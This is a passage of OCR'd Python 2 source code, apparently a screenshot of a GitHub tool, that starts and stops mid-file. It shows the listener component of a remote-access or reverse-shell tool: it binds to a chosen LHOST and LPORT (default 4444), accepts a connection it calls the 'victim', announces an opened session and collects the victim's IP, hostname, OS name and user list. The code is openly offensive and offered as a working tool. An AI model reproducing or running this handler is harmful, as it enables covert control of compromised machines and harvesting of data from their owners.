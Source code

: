         break
    elif cmd=='2':
        print
        lhost=raw_input(Fore.RED+'LHOST-> ')
        if lhost=='':
            lhost=socket.gethostbyname(socket.gethostname())
            print (Fore.GREEN+'\nDefault LHOST : %s\n'%(lhost))
        else:
            print (Fore.GREEN+'\nLHOST : '+lhost+'\n')
        lport=raw_input(Fore.RED+'LPORT-> ')
        if lport=='':
            lport=4444
            print (Fore.GREEN+'\nDefault LPORT : 4444\n')
        else:
            print (Fore.GREEN+'\nLPORT : '+lport+'\n')
        if check_integer(lport)==True:    
            server=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            try:
                lport=int(lport)
                server.bind((lhost,lport))
            except socket.error:
                print (Fore.RED+'[!]\x1b[0mCan\'t Bind %s:%s'%(lhost,lport) )   
            else:
                try:
                    print (Fore.RED+'\nListening')
                    print (Fore.CYAN+'[#]\x1b[37m%s:%s\x1b[0m'%(lhost,lport))
                    server.listen(1)
                except:
                    print (Fore.RED+'[!]\x1b[0mCan\'t Listen %s:%s'%(lhost,lport))
                else:
                    victim,addr=server.accept()
                    licen_process=True
                    print (Fore.BLUE+'\n[*]\x1b[37mSession OPENED\x1b[0m')
                    print (Fore.BLUE+'[*]\x1b[37mVictim IP(%s)\x1b[0m'%(addr[0]))
                    try:
                        hostname=victim.recv(1024)
                    except:
                        print (Back.BLUE+"\nSession Closed\n")
                        
                    else:
                        try:
                            os_name=victim.recv(1024)
                        except:
                            print (Back.BLUE+"\nSession Closed\n")
                        else:        
                            print (Fore.BLUE+'[*]\x1b[37mHostname (%s)\x1b[0m'%(hostname))
                            print (Fore.BLUE+'[*]\x1b[37mOS name (%s)\x1b[0m'%(os_name))
                            print (Fore.WHITE+'\nID\tUser List\n===\t=========')
                            user_list=victim.recv(10240)
                            id_user=0
                            user_list=user_list.split('\', \'')
                            for user in user_list:
                                print (Fore.GREEN+'['+str(id_user)+']\t')+Fore.YELLOW+user
                                id_user+=1
                            print
                            print (Fore.WHITE+'\n====\t====\n'+Fore.GREEN+'[99]\t'+Fore.YELLOW+'exit')
                            print
                    